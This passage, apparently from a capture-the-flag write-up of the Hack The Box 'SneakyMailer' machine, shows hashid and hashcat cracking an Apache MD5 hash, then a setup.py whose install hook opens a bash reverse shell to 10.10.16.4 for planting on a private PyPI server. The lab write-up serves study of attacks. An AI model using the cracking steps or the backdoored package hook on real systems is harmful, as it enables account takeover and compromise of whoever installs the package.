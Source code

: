 Next, we will save the hash to a file and identify the type of hash using ```hashid```

```
┌──(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ hashid '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
Analyzing '$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/'
[+] MD5(APR) 
[+] Apache MD5 
```

Afterwards, we will use hashcat to try to crack the hash. From the output, we can obtain the password as ```soufianeelhaoui```

```
┌──(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ hashcat -m 1600 hash.txt /home/kali/Desktop/pentest/wordlist/rockyou.txt --force
hashcat (v6.1.1) starting...
$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/:soufianeelhaoui
```

Using pypi:soufianeelhaoui, we are able to authenticate to http://pypi.sneakycorp.htb:8080/packages/, but we realize that we are unable to find any listed packages. We also recall from the email exchange that we have obtained earlier that all the python modules will be erased.

![List of python packages](https://github.com/joelczk/writeups/blob/main/HTB/Images/SneakyMailer/package_list.png)

Following the tutorial from [here](https://www.linode.com/docs/guides/how-to-create-a-private-python-package-repository/), we will setup a python package on our local machine. However, we will modify the setup.py file to create a reverse shell.

```python
from setuptools import setup
from setuptools.command.install import install
import os

class Exploit(install):
    def run(self):
        os.system("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.4/3000 0>&1'")

setup(
    name='exploit',
    packages=['exploit'],
    description='Exploit',
    version='0.1',
    url='http://github.com/example/linode_example',
    author='Exploit',
    author_email='docs@linode.com',
    cmdclass={'install':Exploit},
    keywords=['pip','exploit','example']
    )
```
